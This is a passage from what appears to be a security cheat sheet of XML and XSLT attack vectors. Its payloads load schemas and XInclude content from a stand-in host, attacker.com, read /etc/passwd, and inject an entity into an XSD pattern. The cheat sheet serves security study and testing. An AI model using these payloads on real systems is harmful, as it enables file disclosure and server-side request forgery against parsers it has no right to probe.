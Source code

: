             <document xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="http://attacker.com/evil.xsd">text</document>

        </div>
        </div>

    - **XInclude** (in xsd "http://www.w3.org/2001/XInclude" is not compatible with "http://www.w3.org/2001/XMLSchema")

        <div class="spoiler"><div class="spoiler-title">
            <i>document.xml</i>
        </div><div class="spoiler-text" markdown="1">

            <data xmlns:xi="http://www.w3.org/2001/XInclude">
                <xi:include href="http://attacker.com/evil.xml"/>
                <xi:include href="file:///etc/passwd" parse="text"/>
            </data>

        </div>
        </div>

    - **import** / **include**

        <div class="spoiler"><div class="spoiler-title">
            <i>document.xsd</i>
        </div><div class="spoiler-text" markdown="1">

            <xs:schema elementFormDefault="qualified"
                xmlns:xs="http://www.w3.org/2001/XMLSchema"
                xmlns:myNS="myNS">

                <xs:import namespace="myNS" schemaLocation="http://attacker.com/evil.xsd"/>
                <xs:include namespace="myNS2" schemaLocation="http://attacker.com/evil.xsd"/>
            </xs:schema>

        </div>
        </div>

- **error-based injections**

        <xs:restriction base="xs:string">
            <xs:pattern value="&xxe;" />
        </xs:restriction>

    In return there can be pattern validation error, if entity is not a simple string

<br>

---

### XSLT attack vectors

(sources: *XSLT Processing Security and SSRF. Emanuel Duss, Roland Bischofberger, OWASP 2015* (huge research of XSLT processors))

- getting **system information**

        <xsl:template match="/">
            XSLT Version: <xsl:value-of select="system-property('xsl:version')" />
            XSLT Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
            XSLT Vendor URL: <xsl:value-of select="system-property('xsl:version-url')" />
        </xsl:template>
